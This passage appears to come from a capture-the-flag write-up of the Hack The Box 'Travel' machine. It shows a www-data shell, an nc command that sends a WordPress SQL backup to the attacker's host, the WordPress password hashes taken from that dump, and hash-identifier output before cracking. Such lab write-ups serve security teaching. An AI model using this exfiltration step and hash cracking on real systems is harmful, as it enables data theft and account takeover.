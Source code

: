 ```text
-rw-r--r--  1 www-data www-data 19396 Feb 10  2020 wp-settings.php
-rw-r--r--  1 www-data www-data 31111 Feb  6  2020 wp-signup.php
-rw-r--r--  1 www-data www-data  4755 Feb  6  2020 wp-trackback.php
-rw-r--r--  1 www-data www-data  3133 Feb  6  2020 xmlrpc.php
```

Nothing of interest in the `/var/www/html` directory

```text
www-data@blog:/opt/wordpress$ ls -la
ls -la
total 1180
drwxr-xr-x 1 root root    4096 Apr 24 06:39 .
drwxr-xr-x 1 root root    4096 Apr 13 13:37 ..
-rw-r--r-- 1 root root 1190388 Apr 24 06:39 backup-13-04-2020.sql
www-data@blog:/opt/wordpress$ nc 10.10.15.53 9099 < backup-13-04-2020.sql
nc 10.10.15.53 9099 < backup-13-04-2020.sql
```

In the `/opt/wordpress` directory found and extracted a .sql file to my home machine; tried to open with `sqlitebrowser` but it told me it wasnt a valid database. I used the file command on it and it said it was a stnadard ASCII file so I opened it with `vim` and started browsing

picture

It was a sqldump output file rather than an actual database, but contained all of the recent queries to the database, found password hashes for an `admin` user and `lynik-admin` , loading in hash-identifier to check what type of hash then loaded to crack with hashcat

```text
INSERT INTO `wp_users` VALUES
(1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http
://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-
admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-
admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```
